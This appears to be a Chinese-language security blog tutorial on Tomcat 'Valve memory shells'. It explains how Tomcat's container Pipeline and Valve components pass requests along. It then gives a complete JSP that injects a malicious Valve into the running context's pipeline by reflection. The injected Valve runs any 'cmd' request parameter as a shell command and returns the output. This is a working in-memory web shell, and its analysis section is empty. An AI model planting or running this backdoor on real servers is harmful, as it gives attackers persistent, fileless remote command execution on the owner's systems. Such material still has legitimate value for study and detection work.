

# Valve内存马

## 1.基础知识

> `tomcat`中的`Container`有4种，分别是`Engine`、`Host`、`Context`和`Wrapper`，这`4`个`Container`的实现类分别是`StandardEngine`、`StandardHost`、`StandardContext`和`StandardWrapper`。`4`种容器的关系是包含关系，`Engine`包含`Host`，`Host`包含`Context`，`Context`包含`Wrapper`，`Wrapper`则代表最基础的一个`Servlet`。 `tomcat`由`Connector`和`Container`两部分组成，而当网络请求过来的时候`Connector`先将请求包装为`Request`，然后将`Request`交由`Container`进行处理，最终返回给请求方。而`Container`处理的第一层就是`Engine`容器，但是在`tomcat`中`Engine`容器不会直接调用`Host`容器去处理请求，那么请求是怎么在`4`个容器中流转的，4个容器之间是怎么依次调用的呢？
>
> 原来，当请求到达`Engine`容器的时候，`Engine`并非是直接调用对应的`Host`去处理相关的请求，而是调用了自己的一个组件去处理，这个组件就叫做`pipeline`组件，跟`pipeline`相关的还有个也是容器内部的组件，叫做`valve`组件。
>
> `Pipeline`的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么`pipeline`就可以理解为不同容器之间的管道，道路，桥梁。那`Valve`这个组件是什么东西呢？`Valve`也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，`Pipeline`和`Valve`关系也是一样的。`Valve`代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把`Pipeline`比作公路的话，那么`Valve`可以理解为公路上的收费站，车代表`Pipeline`中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。
>
> 在`Catalina`中，`4`种容器都有自己的`Pipeline`组件，每个`Pipeline`组件上至少会设定一个`Valve`，这个`Valve`我们称之为`BaseValve`，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。
>
> `Pipeline`定义对应的接口`Pipeline`，标准实现了`StandardPipeline`。`Valve`定义对应的接口`Valve`，抽象实现类`ValveBase`，`4`个容器对应基础阀门分别是`StandardEngineValve`，`StandardHostValve`，`StandardContextValve`，`StandardWrapperValve`。在实际运行中，`Pipeline`和`Valve`运行机制如下图：



## 2.原理分析


## 3.代码实现

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ContainerBase" %>
<%@ page import="org.apache.catalina.core.StandardPipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);

    Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();

    Field containerBasePipeline = ContainerBase.class.getDeclaredField("pipeline");
    containerBasePipeline.setAccessible(true);
    StandardPipeline standardPipeline = (StandardPipeline) containerBasePipeline.get(standardContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if (request.getParameter("cmd") != null ){
                boolean isLinux = true;
                String os = System.getProperty("os.name");

                if (os != null && os.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] exp = isLinux ? new String[]{"sh","-c",request.getParameter("cmd")} : new String[]{"cmd.exe","/c",request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(exp).getInputStream();
                Scanner s = new Scanner(inputStream).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    };

    standardPipeline.addValve(valveBase);
    out.println("success...");
%>
```


